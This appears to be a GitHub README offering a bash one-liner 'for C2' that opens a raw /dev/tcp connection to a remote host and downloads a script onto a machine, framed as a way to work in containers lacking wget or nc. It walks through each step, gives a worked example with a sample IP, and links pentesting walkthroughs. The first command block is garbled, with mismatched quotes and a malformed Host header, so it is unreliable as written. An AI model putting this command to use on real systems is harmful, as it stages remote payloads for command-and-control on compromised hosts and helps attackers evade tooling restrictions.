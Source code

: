 # One liner bash for C2 without using any native program like wget, nc etc, esp containers. 
```bash
bash-c "exec 3<>/dev/tcp/IP/80; echo -e GET/ youfile.sh HTTP/1.1\r\nHost; ip\r\nConnection: close\r\n\r\n' >&3; cat <&3-> yourfile.sh'
```
or If Not Use 
```bash
bash -c "exec 3<>/dev/tcp/IP/80; echo -e 'GET /yourfile.sh HTTP/1.1\r\nHost: IP\r\nConnection: close\r\n\r\n' >&3; cat <&3 > yourfile.sh"
```

## Explanation How it Work

1. **`exec 3<>/dev/tcp/IP/80`**  
   Opens a TCP connection to the specified `IP` on port `80` and assigns it to file descriptor `3`.

2. **`echo -e 'GET /yourfile.sh HTTP/1.1\r\nHost: IP\r\nConnection: close\r\n\r\n' >&3`**  
   Sends an HTTP GET request to the server.  
   - `GET /yourfile.sh HTTP/1.1`: Requests the file `yourfile.sh` using HTTP/1.1.  
   - `Host: IP`: Specifies the host (replace `IP` with the server's IP or hostname).  
   - `Connection: close`: Ensures the connection is closed after the request.  
   - `\r\n`: Represents a carriage return and newline for proper HTTP formatting.

3. **`cat <&3 > yourfile.sh`**  
   Reads the server's response from file descriptor `3` and saves it to `yourfile.sh`.


## Example

If the server IP is `192.168.1.100` and the file is `script.sh`, the command would look like this:

```bash
bash -c "exec 3<>/dev/tcp/192.168.1.100/80; echo -e 'GET /script.sh HTTP/1.1\r\nHost: 192.168.1.100\r\nConnection: close\r\n\r\n' >&3; cat <&3 > script.sh"
```



## Notes

- Replace `IP` with the actual IP address or hostname of the server.
- Replace `/yourfile.sh` with the path to the file you want to download.
- Ensure the server is running on port `80` and allows HTTP requests.
- This method only works for plain HTTP. For HTTPS, use tools like `curl` or `wget`.
Don’t forget the reactions and stars⭐️! 
They fuel my energy to post such contents🔋✨.


# Learn More
https://happycamper84.medium.com/powershell-for-pentesters-tryhackme-walkthrough-e629641ae1e5
https://github.com/dievus/PowerShellForPentesters

